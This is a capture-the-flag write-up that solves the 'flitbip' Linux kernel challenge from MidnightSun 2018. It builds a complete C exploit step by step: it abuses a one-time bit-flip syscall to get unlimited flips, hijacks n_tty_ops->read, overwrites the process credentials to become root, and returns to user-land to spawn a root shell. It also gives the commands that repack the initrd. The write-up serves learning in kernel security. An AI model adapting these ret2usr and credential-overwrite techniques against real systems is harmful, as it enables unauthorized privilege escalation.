

# My first Linux kernel exploitation

## Abstract

In this article, I will walk you through my initial foray into Linux kernel exploitation. I stumbled upon this challenge on [this GitHub repository](https://github.com/smallkirby/kernelpwn). I'm deeply passionate about low-level domains such as kernels, firmwares, and compilers. That's precisely why, following the development of my own [small kernel](https://github.com/aiglematth/breizhOS) as a CTF challenge, I made the decision to dive into the world of kernel pwn.

## Content

- [My first Linux kernel exploitation](#my-first-linux-kernel-exploitation)
  - [Abstract](#abstract)
  - [Content](#content)
  - [Introduction](#introduction)
  - [Kernel syscall code](#kernel-syscall-code)
  - [Developp the exploit](#developp-the-exploit)
    - [Infinite writes primitive](#infinite-writes-primitive)
    - [Trigger our shellcode](#trigger-our-shellcode)
    - [Privilege escalation](#privilege-escalation)
    - [Return to user-land](#return-to-user-land)
  - [Insert the exploit](#insert-the-exploit)
  - [Conclusion](#conclusion)

## Introduction

I will solve the [FlitBip](https://github.com/smallkirby/pwn-writeups/tree/master/midnightsun2018/flitbip) challenge coming from the MidnightSun CTF. As entrypoint, we have :

- The `initrd` filesystem
- The `bzImage` compressed Linux kernel code
- A script to run this challenge on the QEMU emulator

## Kernel syscall code

When the operating system boots up, it displays the following code:

```c
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/sched.h>
#include <linux/syscalls.h>

#define MAXFLIT 1

#ifndef __NR_FLITBIP
#define FLITBIP 333
#endif

long flit_count = 0;
EXPORT_SYMBOL(flit_count);

SYSCALL_DEFINE2(flitbip, long *, addr, long, bit)
{
        if (flit_count >= MAXFLIT)
        {
                printk(KERN_INFO "flitbip: sorry :/\n");
                return -EPERM;
        }

        *addr ^= (1ULL << (bit));
        flit_count++;

        return 0;
}
```

Regarding the `SYSCALL_DEFINE2` macro, I gathered that this custom kernel introduces a single syscall. After delving into the code for a while, it became evident that this syscall enables us to flip a single bit once within the address space.

## Developp the exploit

The objective here is to exploit this kernel. My killchain will be the following:

- Enable numerous bits flip
- Override a virtual table field which could be trigger with the address of my payload
- Became root and return to user-land
- Start a shell

### Infinite writes primitive

Given the challenge level, I suspected there might be a way to circumvent the `flit_count` verification. Since the `flit_count` symbol is exported, and KASLR is not enabled, we can determine the address of this counter by reading the `/boot/System.map` file. I observed that this variable is signed. By toggling the last bit, we can transform this variable into a significantly large negative number. This action allows us to flip a substantial number of other bits as a result.

```
Flip the 63th bit : 0x8000000000000000 == -0x8000000000000000
To establish that, we do !(0x8000000000000000-1) because integers are signed using the two's complement (https://en.wikipedia.org/wiki/Two%27s_complement).
```

If we create the initial portion of our exploit, it will appear something like this:

```c
#define FLITBIP 333
#define flitbip(addr, bit) syscall(FLITBIP, addr, bit)

unsigned long *FLIT_COUNT = (unsigned long *)0xffffffff818f4f78;

int main(void) {
    // Set flit_count to a negative number to allow us do many syscalls
    flitbip(FLIT_COUNT, 63);

    return 0;
}
```

### Trigger our shellcode

Now, with the ability to flip numerous bits in the kernel, the next step is to find a way to execute crafted shellcode. After extensive research, I stumbled upon [this article](https://github.com/smallkirby/kernelpwn/blob/master/technique/tty_struct.md), which provided a valuable hint. Further exploration into the Linux tty implementation, coupled with the [Linux kernel documentation on tty](https://docs.kernel.org/driver-api/tty/index.html) and the [Linux kernel source code](https://github.com/torvalds/linux/tree/v4.17), led me to discover the statically allocated `n_tty_ops` structure. This structure contains the virtual table with the default implementation of various tty operations. Similar to our previous approach, we can locate the address of this structure in the `/boot/System.map` file. From there, I will override one of these methods and redirect the control flow to my own code. Since [SMAP](https://en.wikipedia.org/wiki/Supervisor_Mode_Access_Prevention) is not activated, we can jump to user-land allocated pages to execute code residing there. The exploit now takes the following form:

```c
#define FLITBIP 333
#define flitbip(addr, bit) syscall(FLITBIP, addr, bit)
#define N_TTY_OPS_READ_OFFSET 48

unsigned long *FLIT_COUNT = (unsigned long *)0xffffffff818f4f78;
unsigned long *N_TTY_OPS  = (unsigned long *)0xffffffff8183e320;
unsigned long *N_TTY_READ = (unsigned long *)0xffffffff810c8510;

void privilege_escalation(void) {}

int main(void) {
    // Set flit_count to a negative number to allow us do many syscalls
    flitbip(FLIT_COUNT, 63);

    // Write n_tty_ops->read address
    unsigned long mask = (unsigned long)N_TTY_READ ^ (unsigned long)privilege_escalation;
    for(long index=0; index<64; index++) {
        if(mask & (1ULL << index)) {
            flitbip((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET, index);
        }
    }

    // Trigger the n_tty_ops->read operation
    char c;
    scanf("%c", &c);

    return 0;
}
```

### Privilege escalation

A common technique for privilege escalation in kernel exploitation involves modifying the `cred` structure located within the `task_struct` structure of our process. To accomplish this, we need to discover a way to access the current task structure and reset all the IDs (uid, gid, euid, egid, etc.) within the `cred` struct to 0. Fortunately, we can obtain access to our current task structure through the `current_task` global variable. We can enhance our exploit as follows:

```c
#define FLITBIP 333
#define flitbip(addr, bit) syscall(FLITBIP, addr, bit)
#define TASK_STRUCT_CRED_OFFSET 0x3c0
#define N_TTY_OPS_READ_OFFSET 48

unsigned long *FLIT_COUNT   = (unsigned long *)0xffffffff818f4f78;
unsigned long *CURRENT_TASK = (unsigned long *)0xffffffff8182e040;
unsigned long *N_TTY_OPS    = (unsigned long *)0xffffffff8183e320;
unsigned long *N_TTY_READ   = (unsigned long *)0xffffffff810c8510;

void privilege_escalation(void) {
    // Set all ids from our user one to the root one (0)
    int *cred = *(unsigned long *)((char *)*CURRENT_TASK + TASK_STRUCT_CRED_OFFSET);

    for(int index=1; index<9; index++) {
        cred[index] = 0;
    }

    // Re-establish the n_tty_ops->read pointer
    *(unsigned long **)((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET) = N_TTY_READ;
}

int main(void) {
    // Set flit_count to a negative number to allow us do many syscalls
    flitbip(FLIT_COUNT, 63);

    // Write n_tty_ops->read address
    unsigned long mask = (unsigned long)N_TTY_READ ^ (unsigned long)privilege_escalation;
    for(long index=0; index<64; index++) {
        if(mask & (1ULL << index)) {
            flitbip((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET, index);
        }
    }
    
    // Trigger the n_tty_ops->read operation
    char c;
    scanf("%c", &c);

    return 0;
}
```

### Return to user-land

Finally, but certainly not least, we will develop the latter part of the exploit: returning to user-land and initiating a new shell. To achieve this, I'll leverage my knowledge of Intel processors and the invaluable [Intel Developer's Manual](https://cdrdv2.intel.com/v1/dl/getContent/671200) to understand how to transition from kernel-land to user-land. According to these resources, we can use the `iret` instruction to switch from ring 0 (kernel-land) to ring 3 (user-land). This instruction resembles a `ret` instruction, but the expected stack frame is as follows:



Additionally, it's crucial to remember to swap the `gs` selector register, as we enter kernel mode from the `syscall` method. The exploit now looks like that:

```c
#define FLITBIP 333
#define flitbip(addr, bit) syscall(FLITBIP, addr, bit)
#define TASK_STRUCT_CRED_OFFSET 0x3c0
#define N_TTY_OPS_READ_OFFSET 48

unsigned long *FLIT_COUNT   = (unsigned long *)0xffffffff818f4f78;
unsigned long *CURRENT_TASK = (unsigned long *)0xffffffff8182e040;
unsigned long *N_TTY_OPS    = (unsigned long *)0xffffffff8183e320;
unsigned long *N_TTY_READ   = (unsigned long *)0xffffffff810c8510;

unsigned long SS;
unsigned long RSP;
unsigned long RFLAGS;
unsigned long CS;
unsigned long RIP;

void get_shell(void) {
    system("/bin/sh");
}

void privilege_escalation(void) {
    // Set all ids from our user one to the root one (0)
    int *cred = *(unsigned long *)((char *)*CURRENT_TASK + TASK_STRUCT_CRED_OFFSET);
    for(int index=1; index<9; index++) {
        cred[index] = 0;
    }

    *(unsigned long **)((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET) = N_TTY_READ;

    unsigned long sh = (unsigned long)get_shell;

    // Return to user space
    __asm__(
        "swapgs\n"
        "push %0\n"
        "push %1\n"
        "push %2\n"
        "push %3\n"
        "push %4\n"
        "iretq\n"
        : "=m"(SS), "=m"(RSP), "=m"(RFLAGS), "=m"(CS), "=m"(sh)
    );
}

int main(void) {
    // Save context to get good variables for the return from kernel-land to user-land
    __asm__(
        "mov %%rsp, %0\n"
        "mov %%ss, %1\n"
        "mov %%cs, %2\n"
        "pushf\n"
        "pop %3\n"
        : "=r"(RSP), "=r"(SS), "=r"(CS), "=r"(RFLAGS)
    );

    // Set flit_count to a negative number to allow us do many syscalls
    flitbip(FLIT_COUNT, 63);

    // Write n_tty_ops->read address
    unsigned long mask = (unsigned long)N_TTY_READ ^ (unsigned long)privilege_escalation;
    for(long index=0; index<64; index++) {
        if(mask & (1ULL << index)) {
            flitbip((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET, index);
        }
    }
    
    // Trigger the n_tty_ops->read operation
    char c;
    scanf("%c", &c);

    return 0;
}
```

## Insert the exploit

The final step is to insert the exploit into our initrd filesystem. To accomplish this, we can use the following commands:

```bash
mkdir initrd_data && cd initrd_data
gzip -dc ../initrd | cpio -idmv
cp <path to exploit> .
find . | cpio --quiet --dereference -o -H newc | gzip -9 > newinitrd
mv newinitrd ..
```

With everything in place, we can now utilize `newinitrd` to boot and execute our exploit, ultimately granting us root access.

## Conclusion

I have a strong affinity for low-level programming, so it was truly rewarding to delve into this beginner-level challenge, even though it posed quite a challenge for me. I plan to keep exploring this subject and will certainly share my progress with you!